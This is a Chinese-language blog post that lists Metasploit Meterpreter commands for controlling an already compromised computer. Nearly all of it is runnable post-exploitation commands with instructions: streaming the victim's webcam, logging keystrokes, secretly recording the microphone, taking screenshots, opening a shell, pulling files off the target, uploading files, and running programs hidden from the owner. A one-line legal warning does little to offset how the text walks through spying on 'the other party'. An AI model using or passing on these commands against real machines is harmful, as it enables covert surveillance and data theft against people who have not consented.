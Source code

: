 ```yaml
---
layout: post
title: '在Msf黑电脑的专用命令'
tags: linux 命令 shell
img: https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/MsfCmd/cover.jpg
---
```


当你进入Meterpreter命令行后，你就可以使用这些命令了。  
**警告：当你执行这些命令时，你需要想过有关国家法律的东西。你不能随意的攻击别人的电脑，你只能供学习使用。**

### 使用vnc查看桌面
VNC是一种远程连接的类型。就好似TeamViewer。但是，两者间不同的点是:VNC的基础是搭在Linux上的，是使用IP地址进行连接的类型，而控制也比较流畅TeamViewer的基础是搭在Windows的，是使用ID号进行连接的类型，而控制会有些一卡一卡的。  
但是，Metasploit的基础是搭在Linux上的。所以Metasploit选用了VNC连接。
```msf
run vnc
```
### 监视摄像头
运行此命令后，你会发现`/home/root`目录生成了一个`乱码.html`的文件。打开此文件后，会看到对方的摄像头的内容。
```msf
webcam_stream
```
### 监视键盘按下内容  
执行此命令后，可以看到对方正在打什么字。如果你要查看对方打什么，先输入
```msf
keyscan_start
```
来开启键盘记录功能。  
随后，显示键盘输入什么，请输入
```msf
keyscan_dump
```
如果你看够了，输入这条命令来结束。
```msf
keyscan_stop
```
### 录制声音
这又是一个很有趣的命令了。但是，这个命令仅支持安装了麦克风的电脑。  
这种电脑大多数是笔记本、手提电脑。  
如果你要窃听对方的电脑麦克风`x`秒，你可以输入
```msf
record -d x
```
这里面的x改为你要窃听的秒数。   
  
另外，你如果想从输入命令后起就窃听，这就有点不太行了。。  
好吧，下面这个命令是从输入命令之后开始窃听**直到按下`Ctrl`+`C`** 。  
```msf
record_mic
```
### 截屏
他会告诉你保存到哪里的，不过保存下载的截屏文件名也是乱码。
```msf
screenshot
```
### 进入cmd
入侵不同的系统有不同的命令行。比如入侵Windows就是进入cmd，入侵Linux就是进入bash。
```msf
shell
```
### 从目标机器下载东西
有点和上面的一样。但是Windows有盘符，而Linux没有盘符。所以如果你想要在Windows下载一些资料的话，要确认那个放资料的盘符，然后每进入一个目录输入两条`\`。
```msf
download C:\\path\\to\\file
```
上面的`C:\\path\\to\\file`可以改成你要下载的文件所在。  
  
如果是Linux，就更简单：
```msf
download /mnt/secretfolder/x
```
上面的`/mnt/secret/x`可以改成你要下载的文件所在。

### 从kali上传内容到目标机器
这又有点不同了。这次是要上传，所以要按照`upload 本地文件 上传的目录`的格式填写。就比如我的账户`root`账号里有一个叫做x的文件，我要这样写：
```msf
upload /home/root/x C:\\path\\for\\upload
```
`/home/root/x`可以改成你的文件所在，`C:\\path\\for\\upload`可以改成你要上传到的目录。  
当然，改成Linux的话也是一样：
```msf
upload /home/root/x /home/user/desktop
```
`/home/root/x`改成你的文件所在，`/home/user/desktop`改成要上传到的目录下。

### 查看有几个摄像头
这个命令可以先“概览”一下这台机器有没有摄像头。比如说你要攻击安卓，万一安卓机器是装在台式机上的，且没配备摄像头，这就不好说了吧。。  
如果你知道你是在攻击手提电脑Windows或其他，这就变成了装逼_的命令。
```msf
webcam_list
```

### 运行程序
如果你是运行在Windows下，这就比较好了。因为Windows在“运行程序”可以不需要带目录_。但是在Linux就说不定了，就要带目录。
```msf
execute -f 文件名
```
如果想要打开应用而不被机主发现打开了程序，可以加`-H`参数，隐秘的打开。
```msf
execute -f -H 文件名
```
如果想要交互式的打开而又不要机主发现，加`-i`参数咯。  
*(当是在Windows的环境下输入是cmd的话，有惊喜！)*
```msf
execute -i -f -H 文件名
```
